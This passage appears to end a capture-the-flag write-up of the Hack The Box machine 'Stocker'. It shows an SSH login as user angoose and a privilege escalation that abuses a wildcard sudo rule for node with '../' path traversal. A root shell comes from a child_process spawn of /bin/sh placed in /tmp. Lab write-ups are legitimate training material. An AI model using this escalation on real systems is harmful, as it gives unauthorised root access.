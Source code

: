 ```
);
app.use("/static", express.static(__dirname + "/assets"));
app.get("/", (req, res) => {
return res.redirect("/login");
});
app.get("/api/products", async (req, res) => {
if (!req.session.user) return res.json([]);
const products = await mongoose.model("Product").find();
return res.json(products);
});
app.get("/login", (req, res) => {
if (req.session.user) return res.redire
```

And we got ssh shell 

```
# ssh angoose@stocker.htb 
The authenticity of host 'stocker.htb (10.10.11.196)' can't be established.
ED25519 key fingerprint is SHA256:jqYjSiavS/WjCMCrDzjEo7AcpCFS07X3OLtbGHo/7LQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'stocker.htb' (ED25519) to the list of known hosts.
angoose@stocker.htb's password: 
angoose@stocker:~$ ls
user.txt
```

We can run node.js with sudo which is gtfobin https://gtfobins.github.io/gtfobins/node/#sudo

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

We can use ../ in the path of the sudo command:

```
angoose@stocker:/usr/local/scripts$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/*.js
# id
uid=0(root) gid=0(root) groups=0(root)
```

I've put `require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})` to /tmp/test.js and got root shell.

Thanks for reading u can message me on twitter https://twitter.com/Vojtech1337 and until next time.